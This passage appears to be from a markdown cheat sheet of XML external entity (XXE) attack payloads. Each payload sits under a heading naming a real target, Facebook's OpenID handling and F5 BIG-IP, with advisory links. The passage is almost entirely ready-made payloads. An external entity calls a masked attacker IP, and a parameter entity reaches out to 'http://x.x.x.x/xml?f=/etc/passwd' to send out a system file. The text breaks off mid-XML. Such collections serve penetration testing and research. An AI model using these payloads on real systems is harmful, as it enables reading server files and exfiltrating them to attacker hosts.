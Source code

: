 ##### facebook xxe via OpenID
 - https://www.sensepost.com/blog/2014/revisting-xxe-and-abusing-protocols/
 - http://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution (openid bug)
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE xrds:XRDS [
   <!ELEMENT xrds:XRDS (XRD)>
   <!ATTLIST xrds:XRDS xmlns:xrds CDATA "xri://$xrds">
   <!ATTLIST xrds:XRDS xmlns:openid CDATA "http://openid.net/xmlns/1.0">
   <!ATTLIST xrds:XRDS xmlns CDATA "xri://$xrd*($v*2.0)">
   <!ELEMENT XRD (Service)*>
   <!ELEMENT Service (Type,URI,openid:Delegate)>
   <!ATTLIST Service priority CDATA "0">
   <!ELEMENT Type (#PCDATA)>
   <!ELEMENT URI (#PCDATA)>
   <!ELEMENT openid:Delegate (#PCDATA)>
   <!ENTITY a SYSTEM 'http://198.x.x.143:7806/success.txt'> ]>

<xrds:XRDS xmlns:xrds="xri://$xrds" xmlns:openid="http://openid.net/xmlns/1.0" xmlns="xri://$xrd*($v*2.0)">
  <XRD>
    <Service priority="0">
      <Type>http://openid.net/signon/1.0</Type>
      <URI>http://198.x.x.143:7806/raw.xml</URI>
      <openid:Delegate>http://198.x.x.143:7806/delegate</openid:Delegate>
    </Service>
    <Service priority="0">
      <Type>http://openid.net/signon/1.0</Type>
      <URI>&a;</URI>
      <openid:Delegate>http://198.x.x.143:7806/delegate</openid:Delegate> </Service>
  </XRD>
</xrds:XRDS>
```
##### facebook xxe via CV
- http://www.attack-secure.com/blog/hacked-facebook-word-document

##### portcullis F5 big-ip
```xml
https://www.portcullis-security.com/security-research-and-downloads/security-advisories/cve-2014-6032/
https://www.portcullis-security.com/security-research-and-downloads/security-advisories/cve-2014-6033/
action=write&contents=<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://x.x.x.x/xml?f=/etc/passwd"> %remote;
%int;
%trick;]><viewList>
  <view id="asd">
    <window>
      <setting name="x" value="0"/>
      <setting name="height" value="256"/>
      <setting name="y" value="190"/>
      <setting name="typeId" value="BwControlTemplWindow"/>
      <setting name="selectedMode" value="Both"/>
      <setting name="width" value="508"/>
    </window>
    <window>
      <setting name="x" value="515"/>
      <setting name="height" value="256"/>
      <setting name="toggleOn" value="true"/>
      <setting name="y" value="0"/>
      <setting name="typeId" value="MemWindow"/>
      <setting name="selectedMode" value="Both"/>
      <setting name="width" value="508"/>
```